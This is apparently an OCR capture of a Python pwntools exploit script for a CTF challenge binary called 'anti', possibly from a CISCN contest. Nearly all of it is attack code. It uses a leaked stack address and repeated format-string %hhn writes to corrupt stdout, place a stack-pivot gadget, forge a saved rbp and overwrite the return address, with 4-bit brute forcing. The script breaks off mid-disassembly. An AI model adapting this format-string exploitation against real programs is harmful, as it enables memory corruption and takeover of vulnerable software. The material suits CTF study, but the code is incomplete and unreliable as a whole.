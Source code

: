 ```
from pwn import *
import sys, os, re

context(arch='amd64', os='linux', log_level='info')
context(terminal=['gnome-terminal', '--', 'zsh', '-c'])

_proc = os.path.abspath('./anti')
_libc = os.path.abspath('./libc.so.6')

libc = ELF(_libc)
elf = ELF(_proc)

p = process(argv=[_proc])

while True:
    try:
        p.settimeout(0.5)

        # get stack address
        prefix = "Ciscn20"
        p.recvuntil("Gift: 0x")
        stack_addr = int(p.recvline()[:-1], 16)

        # set stdout address low byte
        payload = "A" * ((stack_addr - 0x70) &amp; 0xFF) + "%6$hhn"
        p.sendlineafter("Come in quickly, I will close the door.", payload)
        payload = "A" * 0x90 + "%10$hhn"
        p.sendline(payload)

        # set gadget (add rsp, 0x38)
        payload = "A" * ((stack_addr - 0x60) &amp; 0xFF) + "%6$hhn"
        p.sendline(payload)
        # payload = "A" * (((_base(_proc) + 0x1046) &amp; 0xFF00) &gt;&gt; 8) + "%10$hhn" # bruteforce 4 bits
        payload = "A" * (((0x5000 + 0x1046) &amp; 0xFF00) &gt;&gt; 8) + "%10$hhn" # bruteforce 4 bits
        p.sendline(payload)

        # set stack address at stack (point to return address))
        payload = "A" * ((stack_addr + 0x28) &amp; 0xFF) + "%6$hhn"
        p.sendline(payload)
        payload = "A" * ((stack_addr - 0x10) &amp; 0xFF) + "%10$hhn"
        p.sendline(payload)
        payload = "A" * ((stack_addr + 0x29) &amp; 0xFF) + "%6$hhn"
        p.sendline(payload)
        payload = "A" * (((stack_addr - 0x10) &amp; 0xFF00) &gt;&gt; 8) + "%10$hhn"
        p.sendline(payload)

        # set fake old old rbp (for following stack pivot)
        payload = "A" * ((stack_addr - 0x58) &amp; 0xFF) + "%6$hhn"
        p.sendline(payload)
        payload = "A" * ((stack_addr + 0x8) &amp; 0xFF) + "%10$hhn"
        p.sendline(payload)
        payload = "A" * ((stack_addr - 0x57) &amp; 0xFF) + "%6$hhn"
        p.sendline(payload)
        payload = "A" * (((stack_addr + 0x8) &amp; 0xFF00) &gt;&gt; 8) + "%10$hhn"
        p.sendline(payload)

        # set return address to 
        '''
        .text:0000000000000CDF                 mov     rax, [rbp+buf]
        .text:0000000000000CE3                 mov     edx, 1          ; nbytes
        .text:0000000000000CE8                 mov     rsi, rax        ; buf
```